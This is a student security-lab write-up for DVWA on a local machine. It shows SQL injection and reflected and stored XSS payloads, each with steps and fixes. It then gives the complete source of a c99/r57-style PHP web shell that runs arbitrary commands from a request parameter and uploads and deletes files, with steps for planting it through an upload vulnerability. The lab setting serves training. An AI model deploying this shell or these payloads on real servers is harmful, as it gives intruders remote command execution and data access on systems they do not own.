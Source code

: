 Web Hack Project 

Objective

To validate the project, you need to:

    1. Find at least 3 vulnerabilities.
    2. Develop a c99 or r57 type PHP shell that allows file upload, file deletion, and command execution.

Vulnerabilities

1. SQL Injection

    Description: SQL Injection is a code injection technique that exploits a vulnerability in an application's software by injecting SQL queries via input data from the client to the application.

    Steps to Exploit:

        1. Navigate to the SQL Injection section.
        2. Enter 1' UNION SELECT NULL, @@version-- - in the User ID field.
        3. Submit the form.
        4. The database version is displayed.

    Impact: Attackers can access and manipulate the database, leading to data leakage, loss of data integrity, or even gaining control over the database server.

    How to Fix:
    Use prepared statements and parameterized queries.
    Validate and sanitize all user inputs.
    Implement proper error handling to avoid exposing database errors to users.

2. XSS (Reflected)

    Description: Reflected XSS occurs when an attacker injects malicious scripts into a web request that is reflected off a web server and executed by the victim’s browser.

    Steps to Exploit:

        1. Navigate to the "What's your name?" input field.
        2. Enter <svg/onload=alert(1)>.
        3. Submit the form.
        4. Observe the alert box showing 1.

    Impact: Attackers can inject scripts to steal cookies, session tokens, or other sensitive information, deface the website, or perform phishing attacks.

    How to Fix:
    Encode output to ensure that any user input is rendered harmless.
    Use Content Security Policy (CSP) to mitigate XSS attacks.
    Validate and sanitize user inputs.

3. XSS (Stored)

    Description: Stored XSS occurs when user input is stored on the server (e.g., in a database) and then displayed to other users without proper sanitization.

    Steps to Exploit:

        1. Navigate to the XSS (Stored) page in DVWA.
        2. In the "Name" field, write whatever you want.
        3. In the "Message" field, enter <svg/onload=alert(1)>.
        4. Click "Sign Guestbook".
        5. Observe the alert box showing 1.

    Impact: Attackers can inject scripts that execute when other users visit the page, potentially stealing data, defacing the website, or performing other malicious actions.

    How to Fix:

    Encode output to ensure that any stored user input is rendered harmless.
    Use Content Security Policy (CSP) to mitigate XSS attacks.
    Validate and sanitize user inputs before storing them.

4. Develop a PHP Shell (c99/r57 Type)
    PHP Shell Code:

        <?php
        if(isset($_REQUEST['cmd'])){
            echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
        }
        if(isset($_FILES['file'])){
            move_uploaded_file($_FILES['file']['tmp_name'], "./".$_FILES['file']['name']);
            echo "File uploaded successfully.";
        }
        if(isset($_REQUEST['delete'])){
            unlink($_REQUEST['delete']);
            echo "File deleted successfully.";
        }
        ?>
        <!DOCTYPE html>
        <html>
        <head>
            <title>Simple PHP Shell</title>
        </head>
        <body>
            <h1>PHP Shell</h1>
            <form method="GET">
                <input type="text" name="cmd" placeholder="Command">
                <button type="submit">Execute</button>
            </form>
            <br>
            <form method="POST" enctype="multipart/form-data">
                <input type="file" name="file">
                <button type="submit">Upload File</button>
            </form>
            <br>
            <form method="GET">
                <input type="text" name="delete" placeholder="Filename to delete">
                <button type="submit">Delete File</button>
            </form>
        </body>
        </html>

    Steps to Deploy and Test the PHP Shell:

        1. Create a PHP shell named my_shell.php with the code provided above.
        2. Upload the PHP shell using the file upload vulnerability.
        3. Once uploaded, navigate to http://127.0.0.1/hackable/uploads/my_shell.php.
        4. Test the shell by executing a command like "ls".
        5. Upload a file and verify its presence by executing the "ls" command.
        6. Delete the uploaded file using the shell and verify its deletion with "ls".

Made by Ragnar Küüsmaa